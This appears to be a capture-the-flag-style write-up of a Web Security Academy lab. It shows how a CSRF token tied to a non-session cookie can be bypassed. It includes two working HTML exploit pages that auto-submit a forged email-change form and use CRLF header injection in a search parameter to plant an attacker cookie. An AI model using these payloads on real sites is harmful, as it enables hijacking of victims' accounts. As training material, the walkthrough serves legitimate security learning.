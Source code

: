 # Lab: CSRF where token is tied to non-session cookie
This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

- wiener:peter
- carlos:montoya

# Solution
Start by logging in with the wiener user to get access to the email form. And as we can see the form has a CSRF token hidden inside the change email form.  
![](Lab_5_Change_mail_form_HTML.png)


There is also an cookie sent with the request from the client.  
![](Lab_5_CSRF_cookie.png)


Doing a request to change the mail to see what the change mail request looks like.  
![](Lab_5_Change_email_req.png)


So there are two CSRF tokens sent in the request, one stored in a cookie and one hidden in the form on the page. We have access to another account, let's login to see if we can steal the tokens of that account to change the email of the wiener account.  


Getting carlos tokens. 
![](Lab_5_Carlos_tokens.png)


Both tokens are needed, else we get the "Invalid CSRF token" error show here.  
![](Lab_5_Invalid_token_error.png)



But by entering both "stolen" tokens as a cookie and in the body we get the app to change our email. Now we now that the tokens aren't tied to a specific user session and that two tokens are needed, one being set as a cookie and one hidden in the form like in previously completed labs. With this knowledge we can start creating our exploit.   
```html
<html>
<body>
    <form class="login-form" name="change-email-form" action="https://0a960064042243f080832b8e0059007d.web-security-academy.net/my-account/change-email" method="POST">
        <label>Email</label>
        <input required type="email" name="email" value="evil@pwned.com">
        <input required type=hidden name=csrf value=N5h6mhGXE5nIGdgNNjilux7ow2R4TJSe>
        <button class='button' type='submit'> Update email </button>
    </form>
		<script>
			document.forms[0].submit()
		</script>
</body>
</html>
```


Now we need to find a way to get the server to set a cookie in the client that contains our attacker token (from the wiener account).

After exploring the page it was noticed that a cookie is set when using the search function on the "Home" page containing the string from the search field. This tells us that user input is used to set the value of the cookie.   
![](Lab_5_Search_cookie.png)


Testing this further proves that making a get request to "/" with a "search" query set a cookie with a value of what ever we enter into the parameter. We need to set an additional cookie with our attacker token.    
![](Lab_5_Set_cookie_with_search.png)


Researching URL encoding i found that:
- ```%0d``` is the action to "Carrige Return"
- ```%0a``` is the action for "Line Feed"
These actions are used create a new line in the HTTP header, CRLF.
So adding a semi-colon ";" to break out from the "Set-Cookie" header and adding ```%0d%0a``` to the query will create a new line in the HTTP header, like this:  
![](Lab_5_Setting_our_own_cookie.png)


So now we only need to make our exploit to create a GET request with ```/search``` query containing our value to create a new line to set a cookie. For this can we use a img tag. And because we need to make the request to set our cookie first, before posting the form for changing the email we can use the onerror attribute on the img tag to execute the JavaScript when the img tag fails to load an image.  
```html 
<html>
<body>
    <form class="login-form" name="change-email-form" action="https://0a960064042243f080832b8e0059007d.web-security-academy.net/my-account/change-email" method="POST">
        <label>Email</label>
        <input required type="email" name="email" value="evilner@pwned.com">
        <input required type=hidden name=csrf value="NbSDcezTKEkhFRmNrqpL5GcDq2GHrATd">
        <button class='button' type='submit'> Update email </button>
    </form>
    <img src="https://0a960064042243f080832b8e0059007d.web-security-academy.net/?search=123%3b%0d%0aSet-Cookie:%20csrfKey=lLto51zgFsJHz7q6LUtbpbI40kfAF7xd%3b%20SameSite=None" onerror="document.forms[0].submit()"
</body>
</html>
```



![](Lab_5_Solved.png)